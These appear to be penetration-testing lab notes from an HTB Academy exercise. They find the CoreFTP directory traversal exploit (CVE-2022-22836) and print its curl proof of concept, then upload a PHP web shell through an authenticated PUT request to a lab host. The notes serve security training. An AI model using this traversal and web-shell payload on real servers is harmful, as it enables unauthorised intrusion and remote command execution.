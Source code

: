 ```bash
CoreFTP Server build 725 - Directory Traversal (Authenticated)                                                                                | windows/remote/50652.txt
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

# Copy relevant exploit
searchsploit -m windows/remote/50652.txt

  Exploit: CoreFTP Server build 725 - Directory Traversal (Authenticated)
      URL: https://www.exploit-db.com/exploits/50652
     Path: /usr/share/exploitdb/exploits/windows/remote/50652.txt
File Type: ASCII text

Copied to: /home/htb-ac413848/50652.txt
```

### Exploit Analysis
```bash
# HTB Academy exploit study
cat 50652.txt

# Exploit Title: CoreFTP Server build 725 - Directory Traversal (Authenticated)
# Date: 08/01/2022
# Exploit Author: LiamInfosec
# Vendor Homepage: http://coreftp.com/
# Version: build 725 and below
# Tested on: Windows 10
# CVE : CVE-2022-22836

# Description:

CoreFTP Server before 727 allows directory traversal (for file creation) by an authenticated attacker via ../ in an HTTP PUT request.

# Proof of Concept:

curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

### Web Shell Upload via Directory Traversal
```bash
# HTB Academy web shell deployment (Method 1)
# Generate random filename: openssl rand -hex 16
curl -k -X PUT -H "Host: 10.129.242.84" --basic -u fiona:987654321 --data-binary '<?php echo shell_exec($_GET["c"]);?>' --path-as-is https://10.129.242.84/../../../../../../xampp/htdocs/1af271ec0935f7ccbd31dc24666f7f33.php

HTTP/1.1 200 Ok
Date:Sun, 27 Oct 2022 16:10:37 GMT
Server: Core FTP HTTP Server
Accept-Ranges: bytes
Connection: Keep-Alive
Content-type: application/octet-stream
Content-length: 36
```

---